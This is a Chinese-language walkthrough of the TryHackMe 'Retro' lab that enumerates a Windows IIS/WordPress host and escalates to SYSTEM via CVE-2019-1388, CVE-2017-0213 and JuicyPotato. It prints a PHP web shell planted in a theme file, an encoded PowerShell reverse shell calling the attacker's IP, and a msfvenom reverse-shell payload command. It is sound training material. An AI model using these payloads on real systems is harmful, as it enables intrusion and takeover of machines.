









## 概述

來源: tryhackme  
題目: Retro
難度: hard  
網址: https://tryhackme.com/room/retro  
靶機: `10.10.200.42`

## 掃描過程
### hosts
```bash
└─$ cat /etc/hosts
...
10.10.200.42    retro.thm
...
```

### nmap

一開始得不到 port
```bash
└─$ nmap -sC -sV -v retro.thm   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-06 11:20 CST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Initiating Ping Scan at 11:20
Scanning retro.thm (10.10.200.42) [4 ports]
Completed Ping Scan at 11:20, 3.04s elapsed (1 total hosts)
Nmap scan report for retro.thm (10.10.200.42) [host down]
NSE: Script Post-scanning.
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Initiating NSE at 11:20
Completed NSE at 11:20, 0.00s elapsed
Read data files from: /usr/share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.20 seconds
           Raw packets sent: 8 (304B) | Rcvd: 0 (0B)
```

後來改用 `-Pn` 成功取得 ports
```bash
└─$ nmap -sC -sV -Pn -v retro.thm

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2025-11-06T03:26:46+00:00
|_ssl-date: 2025-11-06T03:26:55+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-05T03:16:49
| Not valid after:  2026-05-07T03:16:49
| MD5:   1ccf:786b:0a49:9288:fc77:fdeb:ce26:c3e3
|_SHA-1: 4c1a:c3da:1a01:1258:c3b8:4762:76bc:dc4d:37f6:5c0f
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

原因可參考 [QA](QA-nmap-no-result.md) 
簡單來說應該是因為靶機阻擋了 ICMP ping
所以我們關掉 ping 即可掃描成功


### gobuster

```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ gobuster dir -u http://retro.thm -w ~/wordlists/directories.txt -t 50 
 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://retro.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/kali/wordlists/directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 4748 / 4749 (99.98%)
===============================================================
Finished
===============================================================
```
發現沒掃到
改用大一點的字典掃描
```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ gobuster dir -u http://retro.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -t 100 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://retro.thm
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 1346 / 141709 (0.95%)[ERROR] Get "http://retro.thm/games": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/funny_old_game": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/exposed": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/talking_point": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/south_asia": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/video": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/mediaselector": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/check": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/media": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/other": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/81": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/gardening": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/46": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/gigs": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/sci": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://retro.thm/science": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/retro                (Status: 301) [Size: 146] [--> http://retro.thm/retro/]                                                                         
...
```

掃描到了一個路徑 嘗試訪問後得到一個頁面
> 為什麼會一堆 ERROR 可參考 [QA](QA-gobuster-error.md)
> 應該是因為我 threat 設 100 太大導致有些訪問延遲過久失敗

## initial access
### wordpress
發現疑似 WordPress 5.2.1 版本
```bash
<meta name="generator" content="WordPress 5.2.1" />
```

#### whatweb

使用 whatweb 確認應該是 WordPress 5.2.1 版本沒錯
```bash
└─$ whatweb retro.thm/retro
http://retro.thm/retro [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.200.42], Microsoft-IIS[10.0], RedirectLocation[http://retro.thm/retro/], Title[Document Moved]
http://retro.thm/retro/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.200.42], JQuery, MetaGenerator[WordPress 5.2.1], Microsoft-IIS[10.0], PHP[7.1.29], Script[text/javascript], Title[Retro Fanatics &#8211; Retro Games, Books, and Movies Lovers], UncommonHeaders[link], WordPress[5.2.1], X-Powered-By[PHP/7.1.29]
```

也可以用 [wappalyzer](https://www.wappalyzer.com) 確認  
好像是一個瀏覽器的外掛插件  
參考[大神](https://medium.com/@conmurray/tryhackme-retro-write-up-fe4599480267)使用好像還蠻方便的

### xfreerdp3
發現疑似密碼
搭配 po 文的帳號


成功登入 windows 並取得 user.txt
> 根據你的掃描結果,這台機器沒有開啟 WinRM (5985/5986 端口),所以 evil-winrm 無法連線!  
> 但是有 RDP (3389) 開放,應該用 RDP 連線

```bash
└─$ xfreerdp3 /v:10.10.200.42 /u:wade /p:p...l                

[12:08:18:378] [29968:00007514] [WARN][com.freerdp.client.x11] - [load_map_from_xkbfile]:     : keycode: 0x08 -> no RDP scancode found
...
```



## Privilege Escalation

### CVE-2019-1388
題目有提示 
```bash
Question Hint

Figure out what the user last was trying to find. Otherwise, put this one on ice and get yourself a better shell, perhaps one dipped in venom.
```

發現 chrome 有個儲存的書籤 指向 CVE-2019-1388
  

由於本題目有 bug
建議各位先重啟靶機
RDP 連上之後先開啟 IE & chrome
之後再做以下操作
感謝[大神](https://www.hackingarticles.in/retro-tryhackme-walkthrough/)提供訊息

[利用此POC](https://github.com/jas502n/CVE-2019-1388/blob/master/HHUPD.EXE) 先於本機下載後，開 http.server  

意外發現資源回首桶也有該 .exe XDDD
或許可以直接用就好


```bash
└─$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.210.93 - - [06/Nov/2025 17:20:48] "GET / HTTP/1.1" 200 -
10.10.210.93 - - [06/Nov/2025 17:20:48] code 404, message File not found
10.10.210.93 - - [06/Nov/2025 17:20:48] "GET /favicon.ico HTTP/1.1" 404 -
10.10.210.93 - - [06/Nov/2025 17:20:51] "GET /HHUPD.EXE HTTP/1.1" 200 -
```
再到靶機下載  
  
以下提供失敗時的畫面
沒有瀏覽器可以選 QQ

  

成功畫面
> 這畫面得來不意QQ 重開了三四次靶機



如果成功會有瀏覽器可以選
我選 IE 然後跳出此視窗點 OK
  
最後按照 POC 操作即可提權成功  
  

> 可參考此[大神](https://github.com/nobodyatall648/CVE-2019-1388)的說明

### CVE-2017-0213

```bash
C:\Users\Wade>systeminfo

Host Name:                 RETROWEB
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
...
```

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md?source=post_page-----fe4599480267---------------------------------------) 參考此網址
[SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213) 下載 exloit 檔案

> 其實我也不知道為什麼選這個漏洞來利用 QQ
> 若有大神知道還請指教

本機下載後開啟 http.server 
```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.200.42 - - [06/Nov/2025 12:34:04] "GET / HTTP/1.1" 200 -
10.10.200.42 - - [06/Nov/2025 12:34:05] code 404, message File not found
10.10.200.42 - - [06/Nov/2025 12:34:05] "GET /favicon.ico HTTP/1.1" 404 -
10.10.200.42 - - [06/Nov/2025 12:34:07] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

靶機用瀏覽器連接本機並下載 `CVE-2017-0213_x64.exe`
```bash
C:\Users\Wade\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is 7443-948C

 Directory of C:\Users\Wade\Downloads

11/05/2025  08:34 PM    <DIR>          .
11/05/2025  08:34 PM    <DIR>          ..
11/05/2025  08:34 PM           160,768 CVE-2017-0213_x64.exe
               1 File(s)        160,768 bytes
               2 Dir(s)  30,384,115,712 bytes free
```

執行 `CVE-2017-0213_x64.exe` 後成功取得 admin 權限  
並且取得 root.txt
```bash
C:\Users\Administrator\Desktop>whoami
nt authority\system
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 7443-948C

 Directory of C:\Users\Administrator\Desktop

12/08/2019  08:06 PM    <DIR>          .
12/08/2019  08:06 PM    <DIR>          ..
12/08/2019  08:08 PM                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30,370,779,136 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
79...63
```

### JuicyPotato
先感謝[大神](https://blog.whale-tw.com/2024/03/07/retro-thm/)  

確認 PRIVILEGES INFORMATION  
發現 RDP 的權限不夠
```bash
C:\Users\Wade\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

改嘗試 wordpress 登入  
並 windows reverse shell  
到這裡 挑一個 .php 改 我選 404.php
```bash
http://retro.thm/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro
```
php 內容
```php
<?php system($_GET['cmd']); ?>
```
確認 cmd 可行
  

參考 [此網站](https://www.revshells.com) 取得 windows reverse shell  
```bash
http://retro.thm/retro/wp-content/themes/90s-retro/404.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.4.11.38%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
成功反射 shell
```bash
┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ nc -nvlp 1234                
listening on [any] 1234 ...
connect to [10.4.11.38] from (UNKNOWN) [10.10.4.231] 49830
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\retro\wp-content\themes\90s-retro> whoami
nt authority\iusr
```

這個 user 就有 `SeImpersonatePrivilege`
```bash
PS C:\inetpub\wwwroot\retro\wp-content\themes\90s-retro> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

```

本機先下載 [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)    
再開 http.server 讓 window 的靶機下載 
```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.4.231 - - [07/Nov/2025 13:36:59] "GET /JuicyPotato.exe HTTP/1.1" 200 -
^C

```
```bash
PS C:\inetpub\wwwroot\retro\wp-content\themes> powershell -c "Invoke-WebRequest -Uri 'http://10.4.11.38:4444/JuicyPotato.exe' -OutFile 'JuicyPotato.exe'"
PS C:\inetpub\wwwroot\retro\wp-content\themes> dir


    Directory: C:\inetpub\wwwroot\retro\wp-content\themes


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----        11/6/2025   9:28 PM                90s-retro                     
d-----        12/8/2019   4:02 PM                twentynineteen                
d-----        12/8/2019   4:02 PM                twentyseventeen               
d-----        12/8/2019   4:02 PM                twentysixteen                 
-a----        5/30/2019   2:55 AM             28 index.php                     
-a----        11/6/2025   9:37 PM         347648 JuicyPotato.exe  
```

在本機做一個 reverse.exe 反射執行檔 
```bash
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.4.11.38 lport=4445 -f exe -o reverse.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

一樣開 http.server 給靶機下載後  
執行 JuicyPotato.exe & reverse.exe
> CLSID/Windows_Server_2016_Standard 可參考[網站](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard)

```bash
PS C:\inetpub\wwwroot\retro\wp-content\themes> ./JuicyPotato.exe -l 1004 -p C:\inetpub\wwwroot\retro\wp-content\themes\reverse.exe -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1004
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\inetpub\wwwroot\retro\wp-content\themes> 
```
成功反射 shell  
且是 admin 權限也取得 root.txt
```bash
└─$ nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.4.11.38] from (UNKNOWN) [10.10.4.231] 49951
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
79...63
```

## 補充


### wpscan
```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ wpscan --url http://retro.thm/retro --no-update
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://retro.thm/retro/ [10.10.200.42]
[+] Started: Thu Nov  6 12:59:32 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://retro.thm/retro/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
